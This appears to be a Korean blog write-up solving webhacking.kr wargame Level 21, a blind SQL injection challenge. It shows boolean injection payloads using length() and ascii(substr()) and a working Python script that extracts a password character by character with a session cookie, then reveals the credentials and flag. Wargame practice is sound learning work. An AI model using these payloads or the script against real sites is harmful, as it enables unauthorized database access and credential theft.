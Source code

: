 ```yaml
---
layout: post
title:  "[Web.kr]Level 21"
subtitle:   "[Web.kr]Level 21"
categories: Write-up
tags:
- Wargame
- webhacking.kr
- Write-up
---
```


<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726144412211.png" width="400px">

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726144840924.png" width="400px">

Blind SQL Injection이라고 되어 있다. 주소창을 보니 no, id, pw값을 입력받고 있다.

no에 숫자들을 입력해 보니 True라고 나오는 숫자는 1과 2뿐이다. 따라서 id값은 1과 2이다.

이제 각 id에 맞는 id와 pw를 찾아내야 한다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145056313.png" width="300px">

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145219268.png" width="300px">

`1 and length(id)=5` 를 이용하여 id의 길이가 5인 것과, pw의 길이가 5인 것을 알아 냈다. 똑같은 방법으로 no가 2인 id와 pw의 길이도 알아내면 id는 5, pw는 19의 길이를 가지고 있다.

|  no  |  id   |   pw   |
| :--: | :---: | :----: |
|  1   | ? (5) | ? (5)  |
|  2   | ? (5) | ? (19) |



이제 아이디를 찾아보자. 보통 5의 길이를 가진 id는 'admin'이 있다. 이를 예측해보고 no=1의 id를 substr()를 이용하여 찾아보자.

`1 and ascii(substr(id, 1, 1))=97` 

위 명령어는 no가 1이고, id의 첫번째 인덱스에서 1byte가 ascii코드로 97('a')인지 확인하는 명령어이다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145852871.png" width="300px">

생각처럼 no=1의 id는 'admin'이 아닌것 같다. 하지만 같은 방식으로 no=2의 id를 비교해보니 'admin'이 맞았다.

|  no  |    id     |   pw   |
| :--: | :-------: | :----: |
|  1   |   ? (5)   | ? (5)  |
|  2   | admin (5) | ? (19) |

이렇게 하나하나씩 다 비교해 보는 것은 매우 힘든일이다. 한글자 마다 ascii코드 33부터 136까지 다 비교해봐야 하기 때문이다. 

```python
import requests

url = 'http://webhacking.kr/challenge/bonus/bonus-1/index.php?'
cookie={'PHPSESSID':'b82bba458acf3b6fd70126be82c02e2f'}
pw = ''

# no=1
for i in range(1, 6):
    for j in range(33, 137):
        query = "no=1 and ascii(substr(pw,"+str(i)+" ,1))="+str(j)
        payload = url+query
        print("Password Parsing : "+pw+chr(j))
        res = requests.get(payload, cookies=cookie)
        if((res.text).find("True")>0):
            pw += chr(j)
            print("Find PW : "+pw)
            break

print("[+]Finish Password Parsing...")
print("Password : "+pw)
```

힘든건 컴퓨터한테 시키면 된다.

|  no  |    id     |            pw            |
| :--: | :-------: | :----------------------: |
|  1   |   ? (5)   |        guest (5)         |
|  2   | admin (5) | blindsqlinjectionkk (19) |

no=1의 pw를 찾다보니 비밀번호 한자리씩 파싱하는데 시간이 1-2초씩 소비하였다. 5글자 알아내는대도 5분정도 걸린것 같다. no=2의 pw는 소문자 일것으로 추측하고 경우의 수를 줄여 파싱을 진행하였다. (시간은 금이니까 😏)

##### **flag = blindsqlinjectionkk**

